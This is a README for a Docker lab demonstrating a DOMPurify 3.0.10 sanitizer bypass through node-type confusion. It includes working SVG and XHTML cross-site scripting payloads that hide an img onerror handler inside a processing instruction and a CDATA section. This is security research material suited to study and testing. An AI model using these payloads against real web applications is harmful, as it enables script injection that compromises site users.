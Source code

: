 # Dompurify 3.0.10 bypass - Node type confusion

__Read this in other languages:__ [English](README.md), [Français](README.fr.md)

Link to the full article (in french) : https://sharpforce.gitbook.io/cybersecurity/mes-articles/2024/mai/dompurify-3.0.10-bypass-confusion-nodename-and-cdata

## Installation

```
docker build -t dompurify-3.0.10-bypass .
docker run -p 3000:3000 dompurify-3.0.10-bypass
```

![image](https://github.com/Sharpforce/cybersecurity-code/assets/6013418/75be9d65-91ce-4fc4-b561-9c6be3699627)

## Description

The application allows uploading files in HTML, SVG, or XHTML format, but accessing these files, although possible, is restricted by a CSP policy. However, including such a file, sanitized by Dompurify, within the main page, enables bypass exploitation and execution of JavaScript code.

## Exploitation

### HTML file

The vulnerability is exploitable only when the node is of XML type. Including an HTML file confirms the proper sanitization by Dompurify when the node is of HTML type.

### SVG file

The following SVG file allows bypass exploitation:
```
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
  <rect width="50" height="50" fill="green" />
  <?img > <img src=x onerror="alert(1)"> ?>
</svg>
```

### XHTML file

The following XHTML file allows bypass exploitation:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <title>Exemple de document XHTML</title>
</head>
<body>
    <h1>Document XHTML</h1>
    <p>Exploitation of Dompurify 3.0.10.</p>
    <![CDATA[ ><img src onerror=alert(1) ]]>
</body>
</html>
```
